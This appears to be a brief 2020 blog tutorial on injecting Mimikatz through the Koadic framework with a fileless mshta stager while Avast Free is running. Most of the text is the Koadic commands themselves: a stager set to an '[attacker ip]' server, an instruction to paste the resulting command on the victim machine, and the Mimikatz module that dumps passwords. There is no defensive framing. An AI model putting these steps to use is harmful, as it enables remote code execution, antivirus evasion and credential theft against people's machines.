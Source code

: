 ```yaml
---
title: " Inject Mimikatz with Koadic using fileless mshta with Avast Free protection ON "
date: "2020-02-26"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Watch video tutorial here: [Video](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/videos/mimikatz%20with%20koadic.mp4)

    ./koadic
    use stager/js/mshta
    set srvhost [attacker ip]
    run

Copy the command line and paste on victim machine

    use implant/inject/mimikatz_dotnet2js
    set zombie 0
    run

You can see, we can dump the password using this mimikatz module.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mimikatz_koadic.PNG)
